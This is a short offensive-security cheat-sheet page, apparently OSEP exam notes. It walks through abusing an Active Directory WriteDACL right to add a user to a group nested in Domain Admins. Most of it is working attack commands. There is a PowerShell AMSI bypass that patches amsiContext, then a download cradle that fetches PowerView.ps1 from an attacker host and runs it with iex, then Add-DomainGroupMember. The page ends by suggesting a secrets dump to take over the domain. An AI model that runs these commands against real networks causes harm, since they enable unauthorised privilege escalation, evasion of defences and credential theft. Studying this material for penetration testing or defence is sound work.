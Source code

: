 # WriteDACL Exploitation

![[https://github.com/V0lk3n/OSEP-CheatSheet/blob/main/ActiveDirectoryAndExploit/WriteDACL-Exploitation/bloodhount-writedacl.png]]

We can see that the Domain Group "SQL Admin" have WriteDACL right against "WebAdmins" group. And WebAdmins group is member of Domain Admin, so if we are part of WebAdmins we are DA.

Assuming that we got an user inside the SQL Admin group, we can exploit the WriteDACL right to add an user that we already have access, to the WebAdmins group to become DA.

1. As user of SQL Admin group add an user that we already have access to, to the Web Admins group giving him all rights.

```bash
# As the user of SQL Admin group
C:\>powershell.exe -nop -exec bypass

PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS C:\> (new-object system.net.webclient).downloadstring('http://192.168.x.x:8080/PowerView.ps1') | iex

PS C:\> Add-DomainGroupMember -Identity 'WEBADMINS' -Members 'V0lk3n' -Rights all
```

2. Verify that V0lk3n is part of WebAdmins group.

```PowerShell
PS C:\> Get-DomainUser -Identity V0lk3n
Get-DomainUser -Identity will
...
givenname             : V0lk3n
memberof              : CN=WebAdmins,OU=TGroups,DC=sinhack,DC=com
...
```

3. Now as DomainAdmin we can fire up SecretDump or whatever and pwn all the domain.
